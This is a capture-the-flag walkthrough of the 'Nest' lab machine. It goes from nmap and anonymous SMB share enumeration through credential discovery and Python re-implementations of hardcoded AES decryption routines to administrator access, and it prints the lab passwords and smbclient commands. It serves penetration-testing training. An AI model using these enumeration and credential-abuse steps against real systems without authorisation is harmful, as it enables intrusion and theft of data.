


# Nest - Penetration Testing Walkthrough (Extended Report)

This document is a detailed walkthrough of the **Nest** target machine (IP: `10.129.62.120`).  
It combines step-by-step methodology, commands, reasoning, and findings.  
All image references point to the original screenshots located in the `images/` folder.

---

## 🧭 Enumeration

We started with a comprehensive Nmap scan to identify open TCP ports and gather initial service information:

```bash
nmap -p- -Pn 10.129.62.120 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.62.120 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.62.120 -v --script vuln -oN nmap_vuln.txt
```

This sequence performs:
- A full port scan (`-p-`).
- A default script and version detection scan (`-sC -sV`).
- A vulnerability script scan for additional information.


Despite the aggressive scan, no highly significant vulnerabilities were revealed, though some services were noted.

---

## 🔍 Deep Service Scan

To investigate potential custom services, we manually scanned a specific port observed in earlier output:

```bash
nmap -sC -sV -p4386 10.129.62.120
```


This identified a **custom Reporting Service v1.2** running on port 4386 — potentially a proprietary application worth further analysis.

---

## 📁 SMB Enumeration

We suspected SMB file sharing due to the network behavior and ran the following:

```bash
smbclient -L 10.129.62.120
```


Accessible shares were discovered, including `Data`, `Users`, and `Secure$`.

Attempting guest access to each share:

```bash
smbclient -N \\10.129.62.120\Users
```


Initially, both `Users` and `Secure$` contained no useful files. However, exploring the `Data` share revealed two interesting text files:

- `Maintenance Alerts.txt`
- `Welcome Email.txt`

Upon opening `Welcome Email.txt`, we found valid credentials.


---

## 🧩 Credential Discovery & Access Expansion

Using the discovered credentials, we authenticated as **TempUser**:

```bash
smbclient -U TempUser -p welcome2019 \\10.129.62.120\Users
```

After reconnecting, a new file appeared in the TempUser directory — `New Text Document.txt` (which turned out to be empty).  
We also gained access to additional data within the `Data` share, including multiple `.xml` configuration files.

Among them, an **RU Scanner configuration** contained credentials for **c.smith**:


We also identified relevant file paths via Notepad++:



With these clues, we revisited the `Secure$` share, this time navigating directly to the **Carl** directory, which was previously inaccessible.



---

## 🧠 Source Code Analysis

Inside Carl’s folder, we found Visual Studio project files — notably:
- `SSOIntegration`
- `Utils`
- `Module1.vb`

These suggested custom software development artifacts.  
Opening the code confirmed VB.NET source files containing encryption and decryption routines.


We suspected password decryption logic inside `Utils.vb`, so we examined it next.


---

## 🔐 Decryption Routine & Password Extraction

The VB.NET function leveraged **AES-256 CBC with PBKDF2-HMAC-SHA1** for decryption.  
We replicated its logic in Python to extract plaintext passwords.

```python
import base64
from Crypto.Protocol.KDF import PBKDF2
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from Crypto.Hash import SHA1

def decrypt_string(encrypted_string: str) -> str:
    if not encrypted_string:
        return ""
    password = "N3st22"
    salt_str = "88552299"
    password_iterations = 2
    initial_vector_str = "464R5DFA5DL6LE28"
    key_size_bits = 256

    encrypted_bytes = base64.b64decode(encrypted_string)
    salt_bytes = salt_str.encode('ascii')
    iv_bytes = initial_vector_str.encode('ascii')
    key_bytes = PBKDF2(password, salt_bytes, dkLen=key_size_bits // 8, count=password_iterations, hmac_hash_module=SHA1)
    cipher = AES.new(key_bytes, AES.MODE_CBC, iv_bytes)
    decrypted = unpad(cipher.decrypt(encrypted_bytes), AES.block_size)
    return decrypted.decode('utf-8')
```

Running this code successfully decrypted a password.


The **user flag** was then located within `c.smith`’s SMB share folder:


---

## ⚙️ Privilege Escalation via Debug Analysis

Next, we switched to exploring **debug data** and discovered hidden **alternate data streams (ADS)**:


Examining these streams revealed a **Debug Mode Password**:

```
more "Debug Mode Password.txt":Password
```


We then examined the previously discovered Reporting Service on port 4386.  
After connecting to it using the debug credentials, we entered its internal console.


Using the found debug password:

```
debug WBQ201953D8w
```

Once inside, running `help` listed available commands such as:
- `cd` / `setdir`
- `ls` / `dir`
- `cat` / `showquery <n>`

Within the **LDAP** folder, an `ldapconf` file contained **Administrator credentials**:


Additionally, we noted the same `.exe` file referenced earlier within the AD Integration Module.


Upon inspection, the file was identified as a **.NET executable**, which we decompiled using **ILSpy**.


---

## 🧮 Final Decryption and Administrator Access

We located another encryption routine in the **CR folder**, similar to the previous one but written in C#.  
We replicated this in Python as well:

```python
import base64
from Crypto.Cipher import AES
from Crypto.Hash import SHA1
from Crypto.Protocol.KDF import PBKDF2
from Crypto.Util.Padding import unpad

def decrypt_string(encrypted_string: str) -> str:
    if not encrypted_string:
        return ""
    password = "667912"
    salt_str = "1313Rf99"
    iv_str = "1L1SA61493DRV53Z"
    password_iterations = 3
    key_size_bits = 256

    encrypted_bytes = base64.b64decode(encrypted_string)
    salt_bytes = salt_str.encode('ascii')
    iv_bytes = iv_str.encode('ascii')
    key_bytes = PBKDF2(password, salt_bytes, dkLen=key_size_bits // 8, count=password_iterations, hmac_hash_module=SHA1)
    cipher = AES.new(key_bytes, AES.MODE_CBC, iv_bytes)
    decrypted = unpad(cipher.decrypt(encrypted_bytes), AES.block_size)
    return decrypted.decode('ascii')
```


The decrypted output revealed the **Administrator password**.

---

## 🏁 Root Access

We connected to the administrative share using the recovered credentials:

```bash
smbclient -U administrator -p XtH4nkS4Pl4y1nGX \\10.129.62.120\C$
```

Once authenticated, the **root flag** was located at:

```
C:\Users\Administrator\Desktop
```

---

## ✅ Conclusion

This engagement demonstrated a realistic multi-stage attack chain:

1. **Network Discovery:** Initial port and service enumeration.  
2. **SMB Exploitation:** Anonymous share access leading to user credentials.  
3. **Lateral Movement:** Using discovered credentials to expand access.  
4. **Source Code Analysis:** Reverse-engineering VB.NET and C# encryption logic.  
5. **Privilege Escalation:** Extracting hidden passwords from alternate data streams and service debug modes.  
6. **Full Compromise:** Obtaining the Administrator password and retrieving the root flag.

The **Nest** machine effectively showcased enumeration depth, lateral pivoting, and reverse-engineering under realistic conditions.

---

**Root Flag Path:** `C:\Users\Administrator\Desktop\root.txt`  
**User Flag Path:** `\Users\c.smith\user.txt`

---
